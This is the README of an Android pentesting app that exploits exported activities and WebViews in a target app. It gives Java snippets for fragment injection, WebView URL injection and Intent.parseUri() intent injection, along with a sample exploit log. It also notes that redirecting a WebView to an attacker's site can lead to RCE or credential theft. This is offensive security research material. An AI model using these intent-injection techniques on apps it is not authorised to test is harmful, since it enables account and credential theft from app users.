

# Target Exploit Tool

An Android penetration testing application designed to exploit vulnerabilities in exported functions.

## Overview

This tool provides a simple interface to test multiple security vulnerabilities when discovering exported functions in an app. It includes buttons to launch different exploit vectors and displays results in a real-time log.

The result looks like this:


*Target Exploit Tool interface with exploit buttons and real-time log display*

## Features

### Example Exploit Methods

1. **BlankActivity Exploitation**
   - Targets: `BlankActivity` with `CustomPageFragment`
   - Vulnerability: Fragment injection via Intent extras
   - Method: Launches CustomPageFragment with malicious URL

2. **ForgotPassword Targeting**
   - Targets: Forgot Password WebView
   - Vulnerability: WebView with exposed JavaScript interface
   - Method: Injects custom URL into forgot password WebView

3. **RedirectFragment Direct Launch**
   - Targets: RedirectFragment directly
   - Vulnerability: Redirect page URL injection
   - Method: Direct fragment launch with malicious URL

4. **DeepActivity Intent Injection**
   - Targets: `DeepActivity.navToActivity()` method
   - Vulnerability: `Intent.parseUri()` processing
   - Method: Intent injection with custom URI schemes

## Prerequisites

- Android Studio or compatible IDE
- Android SDK (API 24+)
- Target device with target app installed
- USB Debugging enabled on target device
- Java 25

## Installation

1. **Clone/Download** this project
2. **Open** in Android Studio
3. **Build** the project in Android Studio
4. **Install** on device:
   `adb install C:\<Path-To-App>\app-debug.apk`

## Usage

1. **Launch** the target Exploit Tool app
2. **Enter** your target URL (default: `https://counterhack.com`)
3. **Select** an exploit method by tapping the corresponding button
4. **Monitor** the log output for results

### Exploit Buttons

- **Test BlankActivity**: Launches BlankActivity with CustomPageFragment
- **Test ForgotPassword**: Targets payment processing WebView
- **Test RedirectFragment**: Direct CustomPageFragment exploitation
- **Test DeepActivity Intent**: Intent injection via HomeActivity

## Technical Details

### Exploit Mechanisms

These exploits target mainly webView but do illustrate how to craft exploits. In example, if there is an exported vulnerable webView function, we can target them and redirect the app to a site we controll and execute JavaScript code there. Then we can achive RCE or steal credentials and so on.

#### 1. BlankActivity Vector
```java
Intent intent = new Intent();
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".views.BlankActivity");
intent.putExtra("bundle_key_start_with_fragment_name", "CustomPageFragment");
intent.putExtra("bundle_key_start_fragment_with_args", createCustomPageBundle(url));
```

#### 2. Intent Injection Vector
```java
String intentUri = "intent://" + url + "#Intent;scheme=https;end";
Intent intent = new Intent();
intent.setAction(Intent.ACTION_VIEW);
intent.setData(Uri.parse(intentUri));
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".activities.HomeActivity");
```

#### 3. CustomPage Serialization
```java
private static class CustomPageData implements java.io.Serializable {
    private String mUrl;
    private String mData;
    
    public CustomPageData(String url) {
        this.mUrl = url;
        this.mData = url;
    }
}
```

## Security Research Context

This tool was developed to demonstrate the following vulnerability classes:

1. **Exported Activity Exploitation**
   - Improper Intent validation
   - Fragment injection attacks

2. **WebView Security Issues**
   - JavaScript interface exposure
   - URL validation bypass

3. **Intent Injection Attacks**
   - `Intent.parseUri()` vulnerabilities
   - Deep link processing flaws


## Building from Source

### Requirements
- Java 25+
- Android SDK 34
- Gradle 8.0+


### Project Structure
```
app/
├── src/main/
│   ├── java/com/pentest/chi/
│   │   └── MainActivity.java
│   ├── res/
│   │   ├── layout/activity_main.xml
│   │   ├── values/strings.xml
│   │   └── values/themes.xml
│   └── AndroidManifest.xml
├── build.gradle
└── proguard-rules.pro
```

## Log Output

The app provides real-time logging of exploit attempts:

```
[10:30:15] target Exploit Tool initialized
[10:30:15] ✓ Target app found: com.target.exported.function
[10:30:20] === EXPLOIT 1: BlankActivity ===
[10:30:20] Target: BlankActivity with CustomPageFragment
[10:30:20] URL: https://counterhack.com
[10:30:21] ✓ BlankActivity exploit launched
```

## Troubleshooting

### Common Issues

1. **Target app not found**
   - Ensure target app is installed, sometimes it's a false positive

2. **Permission denied**
   - Enable USB debugging
   - Grant "Install unknown apps" permission

3. **Build failures**
   - Check Java/Android SDK versions
   - Sync project with Gradle files

4. **Exploit failed, permission denied**
   -  Check that the function you are targeting is exported
   -  Check the logs by running `adb logcat > C:\Users\TGC\Desktop\debugginglogs.logs`, pass it to an LLM and pray

## Contributing

Talk to TGC